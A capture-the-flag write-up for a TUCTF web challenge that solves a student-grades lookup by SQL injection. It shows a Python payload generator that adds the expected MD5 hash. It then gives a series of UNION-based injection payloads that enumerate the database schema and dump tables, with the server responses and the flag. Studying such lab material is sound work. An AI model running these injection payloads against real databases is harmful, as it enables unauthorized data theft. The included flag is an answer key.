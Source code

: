 # Student Grades (Web, 50pts)

We are trying to find out what our grade was, but we don't seem to be in the database...

Can you help us out?

http://104.199.151.39/index.html


## Solution

We can see web application to check some user grades:

![Student Grades]
(assets/sg1.png)


When username is entered and 'Check my grades' pressed, little JavaScript code is executed sending AJAX request after some additional data manipulation:

```JavaScript
document.getElementById('submit').addEventListener('click',
                        function(event){
                          event.preventDefault();
                          var input = document.getElementById('info');
                          //var query = 'SELECT * from Names where name=\'' + input.value + '\'';
                          var inp_str = input.value;
                          inp_str = inp_str.replace(/\W+/g, " ");
                          var md5_str = md5(inp_str);
                          var send_str = inp_str+' '+md5_str;
                          var post_data = {name: send_str, submit:1};
                          $.ajax({
                              type: "POST",
                              url: "/postQuery.php",
                              data: post_data,
                              success: function(data){document.getElementById('results').innerHTML=data;}
                          });
                        }
                      );
```        
                      
After quick investigation of response, there's SQL query in the comment:

![Student Grades]
(assets/sg3.png)
                      
                      
There's obvious SQL Injection flaw in this query (no data sanitization, used LIKE '%' and so on).


![Student Grades]
(assets/sg2.png)


I've created simple script to generate payloads and prepare them using formula find in JavaScript code above:

```Python
#!/usr/bin/python
import hashlib

p = "boby' or '1'='1' order by 2,'"

h = hashlib.md5(p)
print "\n\n" + p + "+" + h.hexdigest()

```


First payload finds number of columns:

```
p = "boby' or '1'='1' order by 2,'"
```

Second payload execute UNION based SQL Injection:

```
p = "boby' and '1'='2' union select 1,'"
```

Next grabs table(s) and column(s):

```
name=boby' and '1'='2' union select group_concat(concat(table_name,0x20,column_name)),1 from information_schema.columns where table_schema=database() order by '+ba8883ed612a3d0b752759f01bbbf856
```


Result:
```
<!--HI!--><!--Good auth!--><!--SELECT * FROM tuctf_grades WHERE name LIKE '%boby' and '1'='2' union select group_concat(concat(table_name,0x20,column_name)),1 from information_schema.columns where table_schema=database() order by '%';--><tr><th>Name</th><th>Grade</th></tr><tr><td>tuctf_grades name,tuctf_grades grade,tuctf_info item,tuctf_info value,tuctf_junk item,tuctf_junk owner</td><td>1</td></tr>
```

Let's try table _tuctf___junk_:

```
name=boby' and '1'='2' union select group_concat(concat(item,0x20,owner)),1 from tuctf_junk order by '+ef78413334c102b4fc1426ec45325594
```

Result:

```
<!--HI!--><!--Good auth!--><!--SELECT * FROM tuctf_grades WHERE name LIKE '%boby' and '1'='2' union select group_concat(concat(item,0x20,owner)),1 from tuctf_junk order by '%';--><tr><th>Name</th><th>Grade</th></tr><tr><td>A random server Bob</td><td>1</td></tr>
```

Nope. No flag in this table.


Next, _tuctf___info_ table:

```
name=boby' and '1'='2' union select group_concat(concat(item,0x20,value)),1 from tuctf_info order by '+f4028ff3dafb50d3853d22ced070d8cc
```

And, here we go :)

```
<!--HI!--><!--Good auth!--><!--SELECT * FROM tuctf_grades WHERE name LIKE '%boby' and '1'='2' union select group_concat(concat(item,0x20,value)),1 from tuctf_info order by '%';--><tr><th>Name</th><th>Grade</th></tr><tr><td>flag TUCTF{v4ccinate_y0ur_databa5e5}</td><td>1</td></tr>
```


Flag:
```
TUCTF{v4ccinate_y0ur_databa5e5}
```

